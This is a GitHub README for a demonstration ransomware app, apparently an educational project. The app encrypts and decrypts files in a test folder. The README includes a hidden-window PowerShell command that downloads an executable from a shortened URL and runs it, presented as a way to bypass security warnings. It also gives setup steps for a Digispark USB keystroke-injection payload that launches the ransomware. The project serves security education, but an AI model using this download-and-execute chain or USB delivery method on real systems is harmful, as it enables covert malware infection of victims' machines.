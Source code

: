 **EDUCATIONAL USE ONLY, USE AT YOUR OWN RISK!** \
**IT IS ALWAYS RECOMMENDED TO TEST THESE KINDS OF PROGRAMS INSIDE A VIRTUAL MACHINE WITH NO SENSITIVE INFORMATION INCASE OF SOMETHING GOES WRONG**

**Version 1.0**

![bio](https://github.com/therealhalonen/PhishSticks/assets/112076418/8e7f742d-bdc4-41d0-9aaa-8a6493df29f7)

## What it is 

Simple application made with python and tkinter to demonstrate how an application can encrypt and decrypt your files with extensions {'.txt', '.jpg', '.jpeg', '.png'} in the directory called TestDirz338. Encryption key is generated in users %TEMP% folder.

If combined with the PowerShell script below, the application gets downloaded and executed in path `{USER}\TestDirz338\` 

Right now the application decrypts all {'.txt', '.jpg', '.jpeg', '.png'} files with the encryption key located in the users %TEMP% folder when user gives up the right password (lihapulla). 

![270753154-8fb9e882-b990-48cd-add6-309dd09af3be](https://github.com/therealhalonen/PhishSticks/assets/112076418/bee3e9ec-499b-4a0e-af8b-fc5e2c04b4ea)

## How to use

Download and run the script or .exe file inside a safe folder called TestDirz338 with no important files (incase something goes wrong) and enjoy, for example:

```
$ mkdir TestDirz338
$ cd TestDirz338
$ python3 encrypt.py
```
OR

Make a folder called TestDirz338 in the path C:/Users/{USER}/

![2023-12-05_18-59](https://github.com/therealhalonen/PhishSticks/assets/112076418/6682c7df-debb-40ce-bba0-aea449f228f4)


Bypass security warnings and download the file in users %TEMP% folder & execute the application instantly in TestDirz338 folder by typing the following code into Run (Win+R) on **Windows**:
```
powershell -w hidden -c "(New-Object System.Net.WebClient).DownloadFile('https://tinyurl.com/28sb6pvc', \"$env:TEMP\decryptor.exe\");Start-Process \"$env:TEMP\decryptor.exe\" -WorkingDir \"$env:UserProfile\TestDirz338\""
```
If you don't have a folder called TestDirz338 in path C:/Users/{USER}/ and you execute the code above, nothing happens. Also trying to run the executable anywhere else that inside TestDirz338 raises an error:

![2023-12-05_18-56](https://github.com/therealhalonen/PhishSticks/assets/112076418/85b533aa-ec2b-40af-9d5d-66121cf92b4f)

How it works: https://www.youtube.com/watch?v=glqK_-qdDkw

Executable version works the same without needing different python libraries.

---

### To set up Digispark payload:
- [Set up Digispark](https://github.com/therealhalonen/PhishSticks/blob/master/notes/ollikainen/notes.md#digispark)
- Add correct Digikeyboard library to match your systems keyboard layout for example [DigiKeyboardFi.h](https://github.com/therealhalonen/DigiKeyboardFi/blob/master/DigiKeyboardFi.h) for Finnish keyboards (made by [therealhalonen](https://github.com/therealhalonen))
- Path of the file for Windows: C:/Users/username/Documents/Arduino/libraries/DigisparkKeyboard/DigiKeyboardFi.h
- Path of the file for Linux: ~/.arduino15/packages/digistump/hardware/avr/1.6.7/libraries/DigisparkKeyboard/DigiKeyboardFi.h
- compile and upload [digispark_ransomware.ino](https://github.com/therealhalonen/PhishSticks/blob/master/digispark/digispark_ransomware/digispark_ransomware.ino) to your digispark
- Plug the Digispark in a computers USB slot and enjoy
  
![2023-12-05_19-12](https://github.com/therealhalonen/PhishSticks/assets/112076418/835e2937-1551-41fc-91f6-2b135fd5e0cb)



Watch the video to see it in action: https://www.youtube.com/watch?v=Bi2QOMSHeKI
